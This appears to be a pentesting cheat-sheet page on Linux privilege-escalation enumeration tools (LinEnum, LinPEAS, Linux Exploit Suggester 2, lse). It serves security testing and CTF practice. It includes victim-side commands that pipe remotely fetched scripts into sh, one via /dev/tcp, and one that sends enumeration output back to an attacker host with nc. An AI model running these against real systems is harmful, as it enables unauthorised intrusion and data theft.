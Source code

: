 ﻿# LinEnum – Linux Enumeration Script
This is an awesome Linux enumeration script. It’s run on the target host and searches for many of the common privilege escalation methods or misconfigurations.

Some of the enumeration information collected includes:

Kernel and distribution release details

- System information
- User information
- Privileged access
- Environmental information

https://github.com/rebootuser/LinEnum

## Usage
Download LinEnum

    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

Mount http server in the folder where you downloaded it

    python3 -m http.server

Download LinEnum.sh on the target machine

    cd /tmp
    wget 192.168.56.107:8000/LinEnum.sh

Set the execution rights

    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rw-r--r--  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh

    chmod +x LinEnum.sh
    
    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rwxr-xr-x  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh

Start the script

    ./LinEnum.sh

# LinPEAS - Linux Privilege Escalation Awesome Script
LinPEAS is a script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz.

Check the Local Linux Privilege Escalation checklist from book.hacktricks.xyz.

https://github.com/carlospolop/PEASS-ng/releases

## Quick Start
Find the latest versions of all the scripts and binaries in the releases page.

    # From github
    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

    # Local network
    sudo python -m SimpleHTTPServer 80 #Host
    curl 10.10.10.10/linpeas.sh | sh #Victim
    
    # Without curl
    sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
    cat < /dev/tcp/10.10.10.10/80 | sh #Victim
    
    # Excute from memory and send output back to the host
    nc -lvnp 9002 | tee linpeas.out #Host
    curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

    # Output to file
    ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
    less -r /dev/shm/linpeas.txt #Read with colors

    # Use a linpeas binary
    wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
    chmod +x linpeas_linux_amd64
    ./linpeas_linux_amd64

# Linux Exploit Suggester 2

https://github.com/jondonas/linux-exploit-suggester-2

    #############################
    Linux Exploit Suggester 2
    #############################
    
    Local Kernel: 3.13.0
    Searching 72 exploits...
    
    Possible Exploits
    [1] exploit_x
        CVE-2018-14665
        Source: http://www.exploit-db.com/exploits/45697
    [2] overlayfs
        CVE-2015-8660
        Source: http://www.exploit-db.com/exploits/39230
    [3] pp_key
        CVE-2016-0728
        Source: http://www.exploit-db.com/exploits/39277
    [4] timeoutpwn
        CVE-2014-0038
        Source: http://www.exploit-db.com/exploits/31346


# linux-smart-enumeration - lse

Linux enumeration tools for pentesting and CTFs

This project was inspired by https://github.com/rebootuser/LinEnum and uses many of its tests.

Unlike LinEnum, lse tries to gradualy expose the information depending on its importance from a privesc point of view.

https://github.com/diego-treitos/linux-smart-enumeration